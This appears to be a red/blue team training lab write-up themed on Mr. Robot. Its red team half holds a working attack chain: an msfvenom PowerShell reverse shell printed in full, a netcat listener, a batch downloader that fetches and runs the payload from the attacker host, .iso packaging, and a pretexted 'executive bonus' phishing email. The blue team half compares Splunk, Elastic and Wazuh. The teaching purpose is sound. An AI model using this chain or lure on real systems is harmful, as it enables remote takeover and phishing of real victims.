# Mr Robot Exercise: Pre-Attack

## Summary:

In this initial part of the exercise, the Mr. Robot (Red Team) tasks are to create the initial payloads, including a downloader and a reverse shell, and craft a phishing email to deliver the payloads. The downloader will be hidden in an attached .iso file and will execute the downloader. The downloader will download a reverse shell that will give F-Society a reverse shell into Terry Colby’s (E-Corp CTO) system. 

The Elliot (Blue Team) tasks are to discuss the pros and cons of each SIEM and decide on the SIEM to be used by AllSafe to secure ECorps network. Once a decision has been made, Elliot will install and configure the SIEM and deploy agents to ECorp devices.

 

## Lab Set Up

We will use our standard lab set up for this exercise.



### **Install Thunderbird email client on the Windows machines.**

We need to add a couple of things to at least one of our virtual machines. It is recommended to install Thunderbird on both Windows VMs.  

Download Thunderbird from the link below:

[Thunderbird — Free Your Inbox.](https://www.thunderbird.net/en-US/)

### Install Sublime Text

[Sublime Text - the sophisticated text editor for code, markup and prose](https://www.sublimetext.com/)

Install Sublime Plugin for Email Header

Open Sublime Text Editor and go to Tools and then drop down to Install Package Control.



Enter in “Control-Shift-P” and when the input window opens start typing install, you will see the option to select Package Control: Install Package. Select it.


Another input window will open up, type in email and you will see the Email Header email header.



Select the link to the github page and download the latest release.



Unzip the file and copy the EmailHeader.sublime-syntax file and paste it in the <Username>\AppData\Roaming\Sublime Text\Packages\User folder.



Close Sublime Text Editor and reopen it. Open an .eml file with Sublime and choose email in the bottom right corner. Now the email header is formatted in an easy to read format.

# Mr Robot (Red Team) Tasks

## Create Payloads

**On Kali VM, use msfvenom to create a reverse shell.**

```go
msfvenom -p cmd/windows/reverse_powershell lhost=10.0.3.2 lport=1337 > earnings_statement.txt
```



The msfvenom command is used to generate a reverse shell payload using **Metasploit’s msfvenom** tool, specifically targeting **Windows systems** through PowerShell. Let's break it down:

**Components Breakdown:**

1. **`msfvenom`**:
    - This is a tool within the **Metasploit Framework** used to generate various types of payloads. It combines the functionality of `msfpayload` and `msfencode` to create payloads in different formats and apply encoding if necessary.
2. **`p cmd/windows/reverse_powershell`**:
    - `p` specifies the payload to be generated.
    - `cmd/windows/reverse_powershell` is a **Windows reverse shell** payload that uses **PowerShell**.
    - This payload initiates a reverse shell from the target machine back to the attacker's machine.
3. **`lhost=10.0.3.2`**:
    - This sets the **Local Host** (LHOST) to `10.0.3.2`, which is the IP address of the attacker’s machine. This is the IP address where the reverse shell will connect back to.
4. **`lport=1337`**:
    - This sets the **Local Port** (LPORT) to `1337`. This is the port on the attacker's machine where the connection will be received when the reverse shell is executed on the target machine.
5. **`> earnings_statement.txt`**:
    - The output of the command (the generated payload) is redirected and saved into a text file named `earnings_statement.txt`. This file contains the reverse PowerShell command that, when executed on a Windows machine, will attempt to establish a connection back to the attacker's machine at `10.0.3.2` on port `1337`.

**What Happens:**

- **Payload Generation**: The `msfvenom` command generates a reverse shell PowerShell script that allows an attacker to gain access to a target machine when it is executed.
- **File Creation**: The generated payload (PowerShell script) is saved into the `earnings_statement.txt` file.
- **Execution**: If someone on the target machine runs the content of `earnings_statement.txt` (which contains the malicious PowerShell script), it will attempt to open a reverse shell to the attacker's machine. This would allow the attacker to gain control over the target system remotely, through the reverse shell.

**Reverse Shell Concept:**

- **Reverse Shell**: In this scenario, the target machine (victim) initiates the connection to the attacker's machine (attacker listens on the specified IP and port). Once the connection is established, the attacker can run commands on the victim’s system remotely.

The reverse shell created is shown below:

```go
powershell -w hidden -nop -c $a='10.0.3.2';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
```

The reverse shell seen above:

- **Creates a Reverse Shell**: When the script runs, it opens a reverse connection from the victim machine to the attacker’s IP (`10.0.3.2`) on port `1337`.
- **Gives the Attacker Remote Control**: Once connected, the attacker can remotely execute commands on the victim’s machine by interacting with `cmd.exe`. The commands sent by the attacker are executed on the victim’s machine, and the results are sent back to the attacker.
- **Stealth**: The `w hidden` option ensures that the script runs without displaying any visible window, helping it avoid detection by the user.

**On Kali VM, set up webserver to host the reverse shell to be downloaded.**

```go
python3 -m http.server
```


On the Kali VM, open another terminal and set up a netcat listener.

```go
nc -lvp 1337
```



**Create Downloader**

On a Windows VM, create a .bat file that will download the reverse shell. 

Type (or paste) the following into a text editor, such as notepad.

```go
@ECHO off

:: Set the current directory to the location of the .bat file
set "script_dir=%~dp0"

:: Download earnings_statement.bat
powershell -Command "& {Invoke-WebRequest -URI http://10.0.3.2:8000/earnings_statement.txt -OutFile c:\Windows\Temp\earnings_statement.bat; c:\Windows\Temp\earnings_statement.bat}"

:: Define the path to the bonus.zip file
set "zip_file=%script_dir%bonus.zip"

:: Check if the zip file exists and unzip using PowerShell
if exist "%zip_file%" (
    echo Unzipping bonus.zip using PowerShell...
    powershell -Command "Expand-Archive -Path '%zip_file%' -DestinationPath '%script_dir%'"
    echo Unzip complete.
) else (
    echo bonus.zip not found in %script_dir%.
)

```

Save the file as unzipper.bat”



Create a folder named Bonus and move the unzipper.bat file to the folder.

Create a .txt file and type in (or paste) personal information for Terry Colby.

```go
Terry Colby
Address: 1234 Elmwood Avenue, Springfield, IL 62704, USA
Telephone: (555) 123-4567
Date of Birth: April 15, 1965
```

Save the file as bonus.txt.

Use PowerShell to zip the file and name it bonus.zip.

```go
Compress-Archive -Path ./bonus.txt -DestinationPath ./bonus.zip
```

Place bonus.zip in the Bonus folder with the unzipper.bat file. 



**Create an iso file from the folder.**

- Download and install **Windows ADK**.

[Download and install the Windows ADK](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)



Install by double clicking the download.



Select all the defaults and install.

After install is complete, close the window.



Navigate to C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\

```go
cd C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg
```

Run the command below.

```go
 oscdimg.exe -lBonus -m -o C:\Users\tcolby\Desktop\Bonus C:\Users\tcolby\Desktop\Bonus.iso
```



The .iso file is created on the Desktop.



Test the .iso by double clicking it. When an .iso file is double clicked, it automatically mounts at the next drive letter and automatically opens the “drive”.



When Unzipper is executed it will launch the downloader, which will download and execute the reverse shell.  

The Bonus.iso file will be used as the attachment in the phishing email.

The initial payloads are completed. The downloader (.iso) file will be delivered via phishing email. 

## Crafting the phishing email.

The email below is an example phishing email we can use to deliver the email. What characteristics of a phishing email is being used?

*Subject: Executive Bonus-Immediate Action Required*

*Dear Mr Colby,*

*We are pleased to inform you that as part of our company’s
 recent success, you have been selected to receive an executive bonus! 
To ensure your bonus is processed in the next pay cycle, we kindly 
request that you review and confirm your details included in the 
attachment.*

*Please use the "unzipper" file to prepare to unzip the file.*

*If the information is correct there is no need for further action.*

*Please complete the confirmation by the end of the day to avoid any delays.*

*Best regards,*

*HR*

# Elliot (Blue Team) Tasks

## Discuss the Pros and Cons of Splunk, Elastic, and Wazuh.

As a MSSP, AllSafe will deploy agents to ECorps devices and monitor the network using a SIEM. Gideon Goddard, AllSafe CEO, has called a meeting to discuss which SIEM to use to support his biggest client, ECorp. Below are the notes designed to spark the conversation. Gideon wants this to be a group decision.

### **1. Splunk**

Splunk is a commercial platform that is widely used for **log management**, **SIEM** (Security Information and Event Management), **machine data analysis**, and **real-time monitoring**.

### **Pros:**

- **Powerful Search and Analytics**:
    - Splunk’s search language, **SPL** (Search Processing Language), is robust and flexible, making it easy to filter, aggregate, and visualize data.
- **Ease of Use**:
    - The **user interface** is intuitive, and setup is straightforward. It also comes with out-of-the-box **dashboards**, reports, and visualizations, making it easier for users to start analyzing data quickly.
- **Real-time Monitoring and Alerts**:
    - Splunk provides **real-time data indexing and search** capabilities. Its alerting system is highly customizable, allowing for detailed alerts based on specific events or thresholds.
- **Extensibility and Ecosystem**:
    - Splunk has a large library of apps and add-ons that can extend its capabilities for use cases like **security, IT operations, and business analytics**.
- **Scalability**:
    - Splunk is highly scalable and can handle massive amounts of data, making it suitable for large enterprises.
- **Built-in Machine Learning**:
    - Splunk provides **machine learning** and **AI-driven features**, allowing for predictive analytics and anomaly detection.

### **Cons:**

- **Cost**:
    - Splunk is one of the **most expensive** platforms on the market, with pricing based on the volume of data indexed. Costs can rise significantly as data volumes increase.
- **Resource Intensive**:
    - Splunk can be **resource-hungry**, requiring a significant amount of hardware and computing resources, especially for larger deployments.
- **Complex Queries**:
    - While SPL is powerful, it can have a steep learning curve, especially for those who are unfamiliar with it.

---

### **2. Elastic Stack (Elasticsearch, Logstash, Kibana)**

Elastic Stack, often referred to as **ELK**, is an open-source platform primarily used for **log aggregation**, **data analysis**, and **security monitoring** (with additional tools like **Beats** and **Elastic Security**).

### **Pros:**

- **Open Source**:
    - Elastic Stack offers a **free and open-source** version, which makes it accessible to organizations with limited budgets.
- **Highly Customizable**:
    - Elastic Stack is very **flexible** and can be tailored to a wide variety of use cases, from simple log aggregation to full-fledged security monitoring.
- **Powerful Search and Scalability**:
    - **Elasticsearch** is known for its high-performance **search engine** capabilities and the ability to scale horizontally across distributed systems, making it suitable for handling large datasets.
- **Strong Ecosystem**:
    - Elastic Stack integrates with other components like **Beats** (lightweight data shippers) and **Elastic Agent**, giving it powerful data collection capabilities for metrics, logs, and security data.
- **Security Features**:
    - **Elastic Security** adds threat hunting, SIEM, and automated threat detection features on top of the Elastic Stack, with strong integration into the wider Elastic ecosystem.
- **Visualization with Kibana**:
    - **Kibana** provides customizable and dynamic **dashboards** and visualizations, making data easier to interpret. Kibana also supports **alerting**, **reporting**, and **machine learning** features.

### **Cons:**

- **Steep Learning Curve**:
    - Setting up and managing Elastic Stack can be **complex**, especially in large deployments, where you need to configure **Elasticsearch**, **Logstash**, **Kibana**, and other components.
- **Resource Intensive**:
    - While scalable, Elasticsearch requires a significant amount of hardware resources, especially when handling large datasets or complex queries.
- **Security and Features in Premium Version**:
    - Many **advanced features** like **security controls**, **SIEM capabilities**, and some **alerting functionalities** are locked behind Elastic's paid subscriptions.
- **Logstash Complexity**:
    - **Logstash** is powerful but can be difficult to manage, especially when configuring complex data pipelines.

---

### **3. Wazuh**

Wazuh is an **open-source security platform** that provides **intrusion detection**, **log data analysis**, and **compliance management**. It integrates with **Elastic Stack** for searching, visualizing, and alerting on security events.

### **Pros:**

- **Open Source and Free**:
    - Wazuh is **free** and open-source, making it highly attractive to organizations with limited budgets. There are no licensing fees for basic usage.
- **SIEM Capabilities**:
    - Wazuh provides built-in **SIEM capabilities**, including **host-based intrusion detection (HIDS)**, log analysis, file integrity monitoring, vulnerability detection, and security monitoring.
- **Integration with Elastic Stack**:
    - Wazuh integrates seamlessly with **Elasticsearch** and **Kibana**, allowing users to take advantage of the **Elastic Stack’s search and visualization capabilities** for security monitoring.
- **Compliance Management**:
    - Wazuh offers **compliance modules** that help organizations meet regulatory requirements like **PCI-DSS**, **GDPR**, and **HIPAA**.
- **Lightweight Agents**:
    - Wazuh uses lightweight agents to collect data from endpoints. These agents are easy to deploy across different environments and support multiple operating systems.
- **Extensive Documentation and Community**:
    - Wazuh has a **large community** and extensive documentation, making it easier for users to get support or implement new features.

### **Cons:**

- **Requires Elastic Stack**:
    - Wazuh relies on **Elastic Stack** (Elasticsearch, Logstash, and Kibana) for data storage, search, and visualization, which can add complexity to deployment and management.
- **Resource Intensive**:
    - Running Wazuh alongside Elastic Stack can be **resource-heavy**, particularly in large environments with high data ingestion.
- **Learning Curve**:
    - While simpler than managing a full Elastic Stack installation, there is still a **learning curve** for configuring Wazuh, especially for users without prior SIEM or security monitoring experience.
- **Limited Advanced Features**:
    - Compared to Splunk or Elastic Stack’s enterprise-grade features, Wazuh may lack some of the more **advanced machine learning** or **AI-based analytics** seen in commercial SIEMs.

